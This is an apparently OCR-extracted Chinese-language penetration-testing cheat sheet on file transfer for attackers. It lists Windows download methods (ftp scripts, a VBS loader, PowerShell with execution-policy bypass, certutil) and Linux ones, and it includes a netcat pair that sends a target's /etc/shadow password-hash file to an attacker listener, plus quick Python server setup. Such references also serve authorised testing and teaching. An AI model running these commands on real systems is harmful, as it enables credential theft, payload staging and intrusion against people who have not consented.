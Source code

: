 ### Windows

#### FTP

```
ftp -s:1.txt                        //以1.txt中的内容执行ftp命令
```

#### VBS

```
echo 下载文件程序 >> loader.vbs
cscript loader.vbs 远程文件位置 保存文件位置
```

#### powershell

```
powershell -exec bypass -c (new-object System.Net.WebClient).DownloadFile('远程文件位置','保存文件位置')
```

#### certutil

```
certutil.exe -urlcache -split -f 远程文件位置
certutil.exe -urlcache -split -f 远程文件位置 delete 删除缓存
```

### Linux

#### wget和wput

#### nc

```
攻击端监听端口，并重定向：
nc -nvv -lp 4455 > shaodw.txt
目标机将文件内容回传：
nc 192.168.111.251 4455 < /etc/shadow
```

#### curl

```
curl -O http://192.168.111.1:8080/test/putty.exe
```

#### scp

#### Rsync

### 环境搭建

#### python快速搭建服务器

| 类型 |                          命令                          |
| :--: | :----------------------------------------------------: |
| http |             python -m SimpleHTTPServer 80              |
| ftp  | python -m pyftpdlib -p 21 (需要安装,默认用户anonymous) |
